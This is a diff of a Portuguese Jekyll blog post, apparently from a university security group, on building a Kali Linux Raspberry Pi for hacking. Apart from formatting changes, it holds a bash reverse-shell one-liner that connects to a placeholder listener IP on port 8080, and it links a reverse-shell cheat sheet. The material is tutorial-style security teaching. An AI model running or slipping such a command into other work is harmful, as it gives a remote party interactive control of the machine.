

Before and after one commit to MatheusAvellar/grisufrj.github.io, a Jekyll site: the page built from _posts/2016-11-07-Mr-robot-raspberry-Pi.md, in a window 1280 px wide and 900 px high, scrolled down 1262 px. Shown: the part 151-451 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; part of the change alters nothing that is shown.

```diff
--- a/_posts/2016-11-07-Mr-robot-raspberry-Pi.md
+++ b/_posts/2016-11-07-Mr-robot-raspberry-Pi.md
@@ -14,13 +14,13 @@ A publicação sobre como criar um raspberry para hacking não é exetamente igu
 
 1. Baixar o ![Kali linux para arm](https://www.offensive-security.com/kali-linux-arm-images/). Escolha aquela que mais se adequa ao hardware que estiver sendo utilizado. Iremos utilizar o Kali pois é uma distribuição linux focada em segurança, e por conta disso, fornecerá diversas ferramentas que poderão ser utilizadas em missões futuras.
 
-![offensive security]({{ site.url }}/images/offensive-sec.png)
+![offensive security]({{ site.url }}/images/offensive-sec.png){: .center-image}
 
 2. Feito isso, precisamos criar um script que funcionará como nosso nosso shell reverso. Para tal, é recomendável utilizar o [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) da pentest Monkey.
 
 {% highlight bash%}
 {% raw %}
-bash -i >& /dev/tcp/\<ip da maquina que está escutando\>/8080 0>&1
+bash -i >& /dev/tcp/<ip da maquina que está escutando>/8080 0>&1
 {% endraw %}
 {% endhighlight %}
 
```
